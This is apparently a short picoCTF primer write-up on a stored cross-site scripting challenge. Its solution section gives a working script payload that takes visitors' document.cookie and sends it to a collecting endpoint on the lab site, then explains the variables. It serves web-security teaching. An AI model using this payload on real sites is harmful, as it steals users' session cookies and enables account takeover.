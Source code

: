 # Cross-Site Scripting

## Target
https://primer.picoctf.org/vuln/web/sign_up.php

## Environment
Table with categories: name, description

## Solution
Put this in description

```
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
<script>
$.get(
    "https://primer.picoctf.org/vuln/web/insert.php",
    {cookie : document.cookie, hackername : 'Hacker'},
    function(data) {
        alert("I just stole the cookie!");
    }
);
</script>
```

That service receives two variables: "cookie" and "hackername". The value of the variable cookie will be "document.cookie". Using document.cookie you access the cookies from JavaScript, so that should contain the cookie you want to steal. The variable hackername simply has a name assigned. 
